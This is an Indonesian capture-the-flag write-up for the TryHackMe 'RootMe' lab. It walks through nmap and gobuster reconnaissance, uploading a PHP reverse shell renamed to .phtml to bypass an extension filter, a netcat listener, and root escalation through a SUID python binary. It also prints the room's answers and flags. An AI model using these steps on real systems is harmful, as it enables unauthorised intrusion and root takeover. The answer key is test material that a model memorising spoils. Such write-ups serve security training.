 # CTF RootMe
- TryHackMe Challenge: https://tryhackme.com/room/rrootme
- IP Machine: 10.10.213.79

## Task 2 Reconnaissance
- Lakukan scanning menggunakan tool nmap dengan perintah: `nmap -sV -sC <IP Machine>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%201.JPG)

- Lakukan web directory brute force menggunakan tool gobuster dengan perintah: `gobuster dir -u http://<IP Machine> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%202.JPG)

- Buka halaman web `http://<IP_Machine>` di browser

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%203.JPG)

- Dari hasil brute force gobuster diatas ditemukan halaman **/panel**. Kita bisa membuka di browser dengan url `http://<IP_Machine>/panel` di browser. Setelah dibuka, halaman tersebut berisi form untuk upload file

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%204.JPG)

- **Pertanyaan:** Scan the machine, how many ports are open?
```sh
2
```

- **Pertanyaan:** What version of Apache is running?
```sh
2.4.29
```

- **Pertanyaan:** What service is running on port 22?
```sh
ssh
```

- **Pertanyaan:** What is the hidden directory?
```sh
/panel/
```

## Task 3 Getting a shell
- Disini kita memanfaatkan celah keamanan **File Upload Vulnerabilities**. Salah satunya adalah dengan mengunggah file php reverse shell ke halaman upload file. Kita bisa mengunduh file php-reverse-shell di https://pentestmonkey.net/tools/web-shells/php-reverse-shell
- Setelah berhasil diunduh, edit file **php-reverse-shell.php** dengan menggunakan tool nano. Ubah ip dengan IP tun0 di komputer yang anda gunakan dan disini kita memakai port 4444 sebagai listening

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Vulnversity/assets/ver%204.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Vulnversity/assets/ver%205.JPG)

- Unggah file **php-reverse-shell.php** yang sudah diedit ke halaman `http://<IP_Machine>/panel` dan tekan Upload. Setelah di upload ternyata muncul pesan bahwa extensi file tidak di izinkan

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%205.JPG)

- Sekarang kita coba ubah ekstensi **.php** menjadi **.phtml** dengan perintah `mv php-reverse-shell.php php-reverse-shell.phtml`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%206.JPG)

- Unggah file **php-reverse-shell.phtml** ke halaman `http://<IP_Machine>/panel` dan tekan Upload. Hasilnya file berhasil terunggah

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%207.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%208.JPG)

- Buka terminal dan jalankan netcat dengan perintah `nc -lnvp <port>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%209.JPG)

- Buka halaman web `http://<IP_Machine>/uploads` di browser. Disini terdapat file **php-reverse-shell.phtml** yang sudah kita unggah sebelumnya. Klik file tersebut untuk menjalankannya

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2010.JPG)

- Setelah payload dijalankan, netcat berhasil terkoneksi dengan shell server

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2011.JPG)

- Disini shell tidak stabil, kita bisa melakukan perintah berikut untuk mendapatkan shell server yang stabil
```sh
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2012.JPG)

- File **user.txt** tidak ditemukan di home directory, jadi kita mencari di directory lain dengan perintah `find / -type f -name user.txt`. Ternyata file **user.txt** berada di path **/var/www/user.txt**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2013.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2014.JPG)

- Buka file **user.txt** dengan perintah `cat <path>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2015.JPG)

- **Pertanyaan:** user.txt
```sh
THM{y0u_g0t_a_sh3ll}
```

## Task 4 Privilege escalation
- Cari semua SUID yang dapat dieksekusi dengan perintah dibawah
```sh
find / -type f -user root -perm -4000 2>/dev/null
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2016.JPG)

- Dari perintah diatas ditemukan file **/usr/bin/python** yang bisa digunakan untuk mengeskalasi user root

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2017.JPG)

- Kita bisa memanfaatkan script di https://gtfobins.github.io/gtfobins/python/#suid untuk mendapatkan akses root melalui SUID file python. Kita cukup menjalankan 1 baris perintah dibawah ini untuk mendapatkan akses root
```sh
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2018.JPG)

- Sekarang kita tinggal membaca file **root.txt** sebagai root flag dengan perintah `cat /root/root.txt`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2019.JPG)

- **Pertanyaan:** Search for files with SUID permission, which file is weird?
```sh
/usr/bin/python
```

- **Pertanyaan:** root.txt
```sh
THM{pr1v1l3g3_3sc4l4t10n}
```